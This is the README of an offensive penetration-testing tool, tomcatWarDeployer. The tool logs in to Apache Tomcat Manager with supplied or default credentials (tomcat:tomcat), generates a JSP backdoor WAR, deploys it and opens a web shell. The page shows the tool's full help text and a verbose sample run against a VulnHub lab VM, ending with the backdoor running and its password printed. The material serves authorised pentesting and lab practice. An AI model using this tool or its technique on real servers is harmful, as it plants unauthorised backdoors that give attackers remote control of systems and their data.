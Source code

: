 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server		Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit
  -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
  -t TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
  -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
  -x, --unload          Unload existing JSP Application with the same name.
                        Default: no.
  -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.

  General options:
    -v, --verbose       Verbose mode.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"
```

And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :

```
user$ python tomcatWarDeployer.py -n back -v 192.168.56.100:8080

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Generating temporary structure for back WAR at: "/tmp/tmpr5cLZE"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/back.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 538) (out= 255)(deflated 52%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 2807) (out= 1081)(deflated 61%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpr5cLZE
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
DEBUG: It looks that the application with specified name "back" has not been deployed yet.
DEBUG: Deploying application: back from file: "/tmp/back.war"
DEBUG: Succeeded, invoking it...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/back/"
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/back/
INFO: Happy pwning, here take that password: 'unvQinPLUDiR'
DEBUG: Removing temporary WAR directory: "/tmp/tmpr5cLZE"
```

Which will result in the following JSP application accessible remotely:
![JSP backdoor gui](screen1.png)

As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.

That would be all I guess. 

### TODO

* Implement bind & reverse tcp payload functionality as well as some pty to interact with it
* Test it on tomcat8



